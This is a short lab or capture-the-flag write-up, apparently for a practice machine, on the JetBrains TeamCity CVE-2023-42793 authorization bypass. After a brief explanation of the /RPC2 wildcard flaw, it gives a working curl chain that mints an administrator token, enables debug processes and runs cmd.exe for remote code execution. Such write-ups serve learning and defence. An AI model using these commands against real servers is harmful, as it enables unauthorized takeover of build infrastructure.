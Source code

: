 # JetBrains TeamCity CVE-2023-42793

**Understandng the Vulnerability**

Request Intercepteors in Java

Tasks: logging,authentication, authorization, modifying requests or respond. These interceptors ensure consistent handling and security across application endpoints.

TeamCity uses request interceptors to handle actions on every HTTP request, including authorization checks. 

Authorization Bypass: The vulnerability arises because requests to paths ending in /RPC2 bypass authorization checks due to wildcard matching `/**/RPC2'

Attacker can this flaw to obtain authentication tokens and gain Administrator-level access to server

**Windows Log Analysis**
Event ID 4688 (A new process has been create) or Event ID 1 (sysmon: process creation)

**Reproduce**
Step 1: Create an Authentication Token
```bash
curl -X POST http://10.129.232.10/app/rest/users/id:1/tokens/RPC2
```
This request return token
eyJ0eXAiOiAiVENWMiJ9.YUEwNmQ5OWN3dWtoT1Y2cFVJMkFXN3BoUzlv.NDMzOTVhMWEtNDM4OC00MTY1LTkxNjItODUzODc3N2Y3MDNj
Step 2: Enable Debug mode for RCE
- With the Administrator token in hand, we needed to enable debug mode on TeamCity server. This mode allows us for exectution of arbitrary shell commands
```bash
curl -H "Authorization: Bearer <Your_Token>" -X POST "http://10.129.232.10/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true"
```
Refresh Server for Debug mode
```bash
curl -H "Authorization: Bearer <Token>" "http://10.129.232.10/admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties"
```
Step 3: Execute Arbitrary Command(RCE)
```bash
curl -H "Authorization: Bearer <Your_Token>" -X POST "http://10.129.232.10/app/rest/debug/processes?exePath=cmd.exe&params=/c%20type%20C%3A%5CUsers%5CAdministrator%5CDesktop%5Croot.txt"
```
Retrieve the root.txt file
